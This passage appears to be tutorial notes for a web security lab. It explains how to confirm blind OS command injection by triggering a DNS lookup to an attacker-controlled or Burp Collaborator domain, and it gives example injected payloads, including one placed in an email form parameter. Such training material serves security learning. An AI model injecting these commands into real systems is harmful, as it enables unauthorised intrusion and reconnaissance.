

with out-of-band interaction
You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques.
For example:
& nslookup kgji2ohoyw.web-attacker.com &
This payload uses the
nslookup
command to cause a DNS lookup for the specified domain.
The attacker can monitor for the specified lookup occurring, and thereby detect that the command was successfully injected.
Exercise:
In this exercise can trigger out-of-band interactions with an external domain.
To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.
1. Start Burp Collaborator and Copy to Clipboard the address
2. Use Burp Suite to intercept and modify the request that submits feedback.
3. Modify the
email parameter, changing it to:
email=x||nslookup+SUBDOMAIN.burpcollaborator.net||